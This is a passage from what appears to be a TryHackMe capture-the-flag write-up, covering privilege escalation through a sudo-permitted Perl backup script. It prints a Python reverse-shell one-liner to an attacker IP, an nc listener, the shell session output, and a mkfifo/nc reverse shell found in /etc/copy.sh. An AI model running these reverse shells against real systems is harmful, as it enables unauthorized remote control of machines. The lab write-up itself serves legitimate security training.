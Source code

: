 ```
  
Matching Defaults entries for www-data on THM-Chal:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User www-data may run the following commands on THM-Chal:  
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

we can run a perl script from the user "itguy" directory with sudo permissions

that perlscript is owned by root

```
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
```

we are still in phpbash, but we can run a python reverse shell and try upgrading it to a tty session

the reverse shell code:

```
export RHOST="10.6.18.190";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

start a listener on the attacker machine

```
nc -lvnp 1337
```

copy and paste the reverse shell  code into php bash and enter

```
listening on [any] 1337 ...
connect to [10.6.18.190] from (UNKNOWN) [10.10.195.175] 35482
www-data@THM-Chal:/var/www/html/content/inc/ads$ whoami
whoami
www-data
www-data@THM-Chal:/var/www/html/content/inc/ads$ uname -a
uname -a
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
www-data@THM-Chal:/var/www/html/content/inc/ads$ 
```

contents of backup.pl

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
